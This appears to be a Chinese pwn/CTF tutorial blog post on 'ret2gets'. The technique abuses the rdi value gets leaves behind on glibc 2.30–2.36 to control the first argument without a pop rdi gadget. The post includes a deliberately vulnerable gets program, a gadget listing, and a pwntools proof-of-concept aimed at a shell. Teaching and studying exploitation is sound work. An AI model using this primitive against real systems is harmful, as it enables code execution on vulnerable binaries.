

# \[Ret2gets\] 不靠 `pop rdi; ret` 也能控制 `rdi`

---

最后更新于 2026-03-20 by Saud4d3s

讲到 `gets`，这个函数在 pwn 里确实是太经典了。大多数时候提到它，第一反应都是“无限读入”“经典栈溢出”“早该进历史垃圾堆了”。这些都没错，不过本文关注的不是它能溢出多少，而是它**返回以后，寄存器里还剩下什么**。

因为很多函数调用完以后，参数寄存器早就被踩得乱七八糟了，尤其是 `rdi`，往往很难指望它还留着什么有用的东西。但 `gets` 在一部分较新的 glibc 版本上，返回的时候，`rdi` 里留下来是一个**libc 里的可写地址**。

一旦这一点成立，利用思路就会变得很直接。既然 `rdi` 里有个可写地址，那么再调一次 `gets`，就等于直接往那里面写数据；而第二次 `gets` 返回以后，`rdi` 还会继续指向那块地方。这样一来，就算题目里没有现成的 `pop rdi; ret`，一参函数也仍然有机会接起来。

这就是 `ret2gets` 最有意思的地方。

## 为什么会需要这种技巧

先看这个最普通不过的溢出程序：

```c title="demo.c"
// gcc demo.c -o demo -no-pie -fno-stack-protector
#include <stdio.h>

int main(void)
{
	char buf[0x20];
	puts("ROP me if you can!");
	gets(buf);
	return 0;
}
```

`buf` 只有 `0x20` 字节，而 `gets` 又没有长度检查，显然是一道非常标准的栈溢出题。对这种程序，最经典的利用路径几乎已经成了固定模板：

- 先用 `puts` 泄漏一个 GOT 表项
- 回到 `main`
- 再做一轮 ROP，最后调用 `system("/bin/sh")`

这条链条本身不复杂，但它几乎默认有一个前提：程序里得先有一个能控制一参的 gadget，最典型的就是 `pop rdi; ret`。否则连最基础的 `puts(puts@got)` 都很难摆出来。

但如果真的对这个 demo 跑一遍 `ROPgadget`，经常会先撞上一堵墙：

```bash
❯ ROPgadget --binary demo
Gadgets information
============================================================
0x00000000004010cb : add bh, bh ; loopne 0x401135 ; nop ; ret
0x000000000040109c : add byte ptr [rax], al ; add byte ptr [rax], al ; endbr64 ; ret
0x0000000000401183 : add byte ptr [rax], al ; add byte ptr [rax], al ; leave ; ret
0x0000000000401184 : add byte ptr [rax], al ; add cl, cl ; ret
0x0000000000401036 : add byte ptr [rax], al ; add dl, dh ; jmp 0x401020
0x000000000040113a : add byte ptr [rax], al ; add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x000000000040109e : add byte ptr [rax], al ; endbr64 ; ret
0x0000000000401185 : add byte ptr [rax], al ; leave ; ret
0x000000000040100d : add byte ptr [rax], al ; test rax, rax ; je 0x401016 ; call rax
0x000000000040113b : add byte ptr [rcx], al ; pop rbp ; ret
0x0000000000401139 : add byte ptr cs:[rax], al ; add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x0000000000401186 : add cl, cl ; ret
0x00000000004010ca : add dil, dil ; loopne 0x401135 ; nop ; ret
0x0000000000401038 : add dl, dh ; jmp 0x401020
0x000000000040113c : add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x0000000000401137 : add eax, 0x2efb ; add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x0000000000401017 : add esp, 8 ; ret
0x0000000000401016 : add rsp, 8 ; ret
0x000000000040103e : call qword ptr [rax - 0x5e1f00d]
0x0000000000401014 : call rax
0x0000000000401153 : cli ; jmp 0x4010e0
0x00000000004010a3 : cli ; ret
0x000000000040118f : cli ; sub rsp, 8 ; add rsp, 8 ; ret
0x00000000004010c8 : cmp byte ptr [rax + 0x40], al ; add bh, bh ; loopne 0x401135 ; nop ; ret
0x0000000000401150 : endbr64 ; jmp 0x4010e0
0x00000000004010a0 : endbr64 ; ret
0x0000000000401012 : je 0x401016 ; call rax
0x00000000004010c5 : je 0x4010d0 ; mov edi, 0x404038 ; jmp rax
0x0000000000401107 : je 0x401110 ; mov edi, 0x404038 ; jmp rax
0x000000000040103a : jmp 0x401020
0x0000000000401154 : jmp 0x4010e0
0x000000000040100b : jmp 0x4840103f
0x00000000004010cc : jmp rax
0x0000000000401187 : leave ; ret
0x00000000004010cd : loopne 0x401135 ; nop ; ret
0x0000000000401136 : mov byte ptr [rip + 0x2efb], 1 ; pop rbp ; ret
0x0000000000401182 : mov eax, 0 ; leave ; ret
0x00000000004010c7 : mov edi, 0x404038 ; jmp rax
0x00000000004010cf : nop ; ret
0x000000000040114c : nop dword ptr [rax] ; endbr64 ; jmp 0x4010e0
0x00000000004010c6 : or dword ptr [rdi + 0x404038], edi ; jmp rax
0x000000000040113d : pop rbp ; ret
0x000000000040101a : ret
0x0000000000401011 : sal byte ptr [rdx + rax - 1], 0xd0 ; add rsp, 8 ; ret
0x0000000000401138 : sti ; add byte ptr cs:[rax], al ; add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x0000000000401191 : sub esp, 8 ; add rsp, 8 ; ret
0x0000000000401190 : sub rsp, 8 ; add rsp, 8 ; ret
0x0000000000401010 : test eax, eax ; je 0x401016 ; call rax
0x00000000004010c3 : test eax, eax ; je 0x4010d0 ; mov edi, 0x404038 ; jmp rax
0x0000000000401105 : test eax, eax ; je 0x401110 ; mov edi, 0x404038 ; jmp rax
0x000000000040100f : test rax, rax ; je 0x401016 ; call rax

Unique gadgets found: 51
```

什么都看不到，缺的往往还不只是 `pop rdi ; ret`，很多平时很眼熟的 gadget 也会一起消失。

### `pop rdi ; ret` 平时从哪里来

在很多老一些的题目里，最常见的 `pop rdi ; ret` 来源其实并不是某段“专门给利用者准备好的代码”，而是 `__libc_csu_init` 里的 `pop r15 ; ret`。由于 x86 指令是变长的，从中间一个字节开始执行时，会得到新的指令解释：

```text
pop r15 ; ret = 41 5f c3
pop rdi ; ret =    5f c3
```

也就是说，只要有 `pop r15 ; ret`，从第二个字节开始执行，就会得到一个 `pop rdi ; ret`。而过去的 `__libc_csu_init` 往往恰好带着这样一串 `pop`，于是很多很短的小程序也能白拿到一套相当顺手的 gadget。

### 为什么它在 `glibc 2.34+` 里突然不见了

问题出在 `glibc 2.34` 之后的启动代码调整。glibc 有一处 [patch](https://sourceware.org/pipermail/libc-alpha/2021-February/122794.html){target="_blank" rel="noopener"} 停止把 `__libc_csu_init` 编进新二进制里，原本很多题里最常见的 gadget 来源也就跟着一起消失了。

于是就会出现一个很尴尬的局面：程序明明有溢出，也有 `puts@plt` 和 GOT 这些熟悉的利用点，但真正开始拼链的时候，却发现连 `pop rdi ; ret` 都没有，经典 ret2plt 思路直接卡在第一步。

拿到 libc 泄漏之后，libc 本体里通常还是能找到 `pop rdi ; ret`。但问题恰恰就在“还没有 leak 之前”的这一步，程序本体里的 gadget 可能已经差到连第一轮泄漏都做不出来。

`ret2gets` 要解决的正是这个空档。它并不是为了取代所有 ROP 技巧，而是在“程序本体里 gadget 很差、又还没拿到 libc 泄漏”的时候，先想办法把 `rdi` 控出来。只要这一步解决，后面的很多事情就都能继续往下做。

## 问题回到 `gets` 本身

上面这个程序真正有意思的地方在于：在 `gdb` 里跑起来，随便输一串东西，再去看 `gets` 返回前后的寄存器，就会发现 `rdi` 的值不太对劲。

它并不是还指向一开始传进去的 `buf`，而是跑到了一个叫 `_IO_stdfile_0_lock` 的地方去。

这里先记住一件事即可：

> `_IO_stdfile_0_lock` 在 libc 的可写区域里。

光这一点，就已经足够让人起兴趣了。

## `_IO_stdfile_0_lock` 是什么东西

如果去看 glibc 里 [`gets`](https://elixir.bootlin.com/glibc/glibc-2.35/source/libio/iogets.c#L31){target="_blank" rel="noopener"} 的实现，会发现它并不是单纯地读入一串数据那么简单。作为标准 IO 的一部分，它开头会通过 [`_IO_acquire_lock`](https://elixir.bootlin.com/glibc/glibc-2.35/source/sysdeps/nptl/stdio-lock.h#L88){target="_blank" rel="noopener"} 锁住 `stdin`，结束前再把锁释放掉。

```c
char *
_IO_gets (char *buf)
{
  size_t count;
  int ch;
  char *retval;

  _IO_acquire_lock (stdin);
  ch = _IO_getc_unlocked (stdin);
  if (ch == EOF)
    {
      retval = NULL;
      goto unlock_return;
    }
  if (ch == '\n')
    count = 0;
  else
    {
      /* This is very tricky since a file descriptor may be in the
	 non-blocking mode. The error flag doesn't mean much in this
	 case. We return an error only when there is a new error. */
      int old_error = stdin->_flags & _IO_ERR_SEEN;
      stdin->_flags &= ~_IO_ERR_SEEN;
      buf[0] = (char) ch;
      count = _IO_getline (stdin, buf + 1, INT_MAX, '\n', 0) + 1;
      if (stdin->_flags & _IO_ERR_SEEN)
	{
	  retval = NULL;
	  goto unlock_return;
	}
      else
	stdin->_flags |= old_error;
    }
  buf[count] = 0;
  retval = buf;
unlock_return:
  _IO_release_lock (stdin);
  return retval;
}
```

glibc 的标准 IO 为了支持多线程，很多时候都会给 `FILE` 结构加锁。比如 `stdin`、`stdout` 这些流，不可能让多个线程随便一起改，所以它们内部会带一个锁对象。

`stdin` 这个 `FILE` 结构里有一个 [`_lock`](https://elixir.bootlin.com/glibc/glibc-2.35/source/libio/bits/types/struct_FILE.h#L81){target="_blank" rel="noopener"} 指针，而它指向的是一个 [`_IO_lock_t`](https://elixir.bootlin.com/glibc/glibc-2.35/source/sysdeps/nptl/stdio-lock.h#L26){target="_blank" rel="noopener"} 结构：

```c
typedef struct { int lock; int cnt; void *owner; } _IO_lock_t;
```

对标准输入来说，这个 `_lock` 指针通常就会指到 `_IO_stdfile_0_lock`。

这里不把 glibc 的锁宏一层层全展开，我们只需要知道和利用直接相关的一句话——在常见的 `x86_64`、`glibc 2.30+` 环境下，`gets` 快返回时会走到 [`_IO_lock_unlock`](https://elixir.bootlin.com/glibc/glibc-2.35/source/sysdeps/nptl/stdio-lock.h#L67){target="_blank" rel="noopener"} 这段解锁逻辑，而这段逻辑会把 `stdin->_lock` 装进 `rdi`，然后函数直接返回。

于是就得到这样一个结果：

```text
rdi = _IO_stdfile_0_lock
```

这就是 `ret2gets` 的出发点。

如果一次 `gets` 返回以后，`rdi` 指向的是 `_IO_stdfile_0_lock`，那下一步自然就是再调用一次 `gets`。

这样一来，第二次调用就等价于：

```c
gets(_IO_stdfile_0_lock);
```

这意味着输入不再写到栈上，而是写进了 libc 这块可写区域里。更重要的是，第二次 `gets` 返回以后，`rdi` 依然会停在这里。于是就得到一个非常实用的效果：

> 第二次 `gets` 写进去什么，返回时 `rdi` 就会指向什么。

对于习惯了“必须先找 `pop rdi; ret` 才能往下做”的利用路径来说，这里相当于 `gets` 自己补出了一个可控的一参。

## 最小 demo 证明 `rdi` 确实可控

不妨先用一个更小、更干净的 demo 来验证 `gets` 返回后，`rdi` 已经指向了目标字符串。

POC 如下：

```python title="exp.py"
from pwn import *

context.log_level = "debug"
elf = context.binary = ELF("./demo")
p = process()

payload = b"A" * 0x20
payload += p64(0)  # saved rbp
payload += p64(elf.plt.gets)  # ret -> gets@plt

p.sendlineafter(b"ROP me if you can!\n", payload)

pause()
p.sendline(b"/bin" + p8(ord("/") + 1) + b"sh")

p.interactive()
```

这段脚本里最容易让人困惑的地方就是最后一行输入。为什么不直接发一个 `/bin/sh`，而要写成这样？

原因在于 `_IO_stdfile_0_lock` 并不是普通字符串缓冲区，它前 8 个字节对应的是：

```text
lock | cnt
```

也就是两个 `int`。第二次 `gets` 返回之前，glibc 还要顺手执行一次解锁逻辑，而这一步会对 `cnt` 做一次减一。

因此如果直接输入 `/bin/sh`，数据会被这一步破坏掉。

等到解锁时执行 `--cnt`，`0x30` 即 `0` 就会被减成 `0x2f`，于是整个 8 字节正好变成：

```text
"/bin/sh\x00"
```

这里打个断点，查看寄存器的值：



到这里就已经足够了，已经可以说明一件非常关键的事：

> 在没有 `pop rdi; ret` 的情况下，`gets` 仍然能够把 `rdi` 变成一个可控字符串指针。

## 版本问题

不过要记住，这并不是一个完全不挑环境的技巧。

本文讲的这个最小思路，最适合的环境大致是 `glibc 2.30` 到 `2.36`。在这些版本里，`gets` 返回后把 `_IO_stdfile_0_lock` 留在 `rdi` 里的行为比较稳定。

再往前，比如 `2.29` 以及更早的版本，相关解锁路径的汇编不太一样，`_lock` 不一定会稳定地留在 `rdi` 里，最小 demo 往往就跑不通了。

再往后，比如 `2.37+`，锁的逻辑又有调整。简单的 `rdi` 控制很多时候还能玩，但更进一步的泄漏技巧、对 `cnt` 的利用，就需要重新按版本细看。
